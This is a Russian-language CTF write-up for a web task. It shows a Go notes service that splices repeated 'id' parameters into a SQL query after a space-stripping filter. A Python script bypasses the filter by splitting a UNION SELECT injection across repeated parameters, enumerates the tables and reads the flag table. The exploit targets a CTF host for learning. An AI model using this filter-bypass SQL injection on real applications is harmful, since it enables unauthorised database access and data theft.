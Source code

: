 # More and more

Открыв код приложения видим:

1. есть обработчик `/get-by-id`
2. в нём функция валидирует параметры запроса и примитивным образом вставляет резултат в sql запрос. 
```
id := strings.Join(validate(r.URL.Query()["id"]), " ")
query := fmt.Sprintf("SELECT note FROM notes WHERE id = %s", id)
rows, err := pg.Query(context.Background(), query)
```
```
func validate(words []string) (res []string) {
	for _, w := range words {
		w = strings.ReplaceAll(w, "\n", "")
		w = strings.ReplaceAll(w, " ", "")
		w = strings.ReplaceAll(w, "\r", "")
		...
		w = strings.ReplaceAll(w, "%0C", "")
		w = strings.ReplaceAll(w, "%0c", "")
		w = strings.ReplaceAll(w, "%0D", "")
		w = strings.ReplaceAll(w, "%0d", "")

		res = append(res, w)
	}
	return
}
```
3. из параметры ссылки берутся все ключ `id=`, после чего значения соеденяются пробелами
4. так как в функции валидации удаляются проблелы, все нужные слова для sql инъекции будем писать в значении ключей `key=`
5. создаём программу для удобства создания запросов. Пробуем `1 UNION SELECT table_name FROM information_schema.tables` чтобы соеденить таблицы заметок и таблицу с именами таблиц
```
import requests

def get_token():
    text = "1 UNION SELECT table_name FROM information_schema.tables"
    text_list = text.split(" ")
    params = [f"id={text_list[i]}" for i in range(len(text_list))]
    url = "http://more-and-more.tasks.2025.ctf.cs.msu.ru/get-by-id?" + "&".join(params)
    response = requests.get(url)

    if "error" not in response.text:
        for i in response.json():
            print(i)
    else:
        print(response.text)

get_token()
```
6. видим в списке таблицу с именем flag. поменяем запрос на `text = "1 UNION SELECT flag FROM flag"`
7. видим в списке флаг вместе с заметкой, копируем флаг и получаем баллы
